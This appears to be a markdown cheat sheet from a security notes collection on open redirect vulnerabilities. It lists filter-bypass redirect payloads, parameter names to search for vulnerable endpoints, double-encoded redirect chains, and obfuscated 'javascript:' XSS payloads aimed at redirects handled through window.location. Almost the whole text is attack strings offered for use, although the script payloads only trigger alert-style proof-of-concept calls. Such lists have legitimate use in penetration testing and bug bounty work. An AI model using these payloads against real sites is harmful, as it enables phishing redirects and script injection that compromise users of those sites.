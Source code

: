  Open redirection is simply a url such as http://example.com?goto=https://google.com will then visited the URL provided in the parameter

## Common payload to bypass filter
```
\/yoururl.com
\/\/yoururl.com
\\yoururl.com
//yoururl.com
//theirsite@yoursite.com
/\/yoursite.com
https://yoursite.com%3F.theirsite.com/
https://yoursite.com%2523.theirsite.com/
https://yoursite?c=.theirsite.com/ (use ## \ also)
//%2F/yoursite.com
////yoursite.com
https://theirsite.computer/
https://theirsite.com.mysite.com
/%0D/yoursite.com (also try %09, %00, %0a, % 07)
/%2F/yoururl.com
/%5Cyoururl.com
//google%E3%80%82com
```

## Google dork to find vulnerable endpoints
```
return
return_url
rUrl
cancelUrl
url
redirect
follow
goto
returnTo
returnUrl
r_url
history
goback
redirectTo
redirectUrl
redirUrl
```

## Using encoding
### Sometimes double encode with help base on how many redirects are made & parameters
```
https://example.com/login?return=https://example.com/?redirect=1%26returnurl=https%3A%2F%2Fwww.google.com%2F
https://example.com?login?return=https://%3A%2F%2Fexample.com%2F%3Fredirect=1%2526returnurl%3Dhttps%253A%252f%252Fwww.google.com
```
### XSS migh be possible if it is redirected via something like "window.location"
```
java%0d%0ascript%0d%0a:alert(0)
j%0d%0aava%0d%0aas%0d%0acrip%0d%0at%0d%0a:confirm`0`
java%07script:prompt`0`
java%09scrip%07t:prompt`0`
jjavascriptajavascriptvjavascriptajavascriptsjavascriptcjavascriptrjavascriptijavascript
pjavascriptt:confirm`0`
```
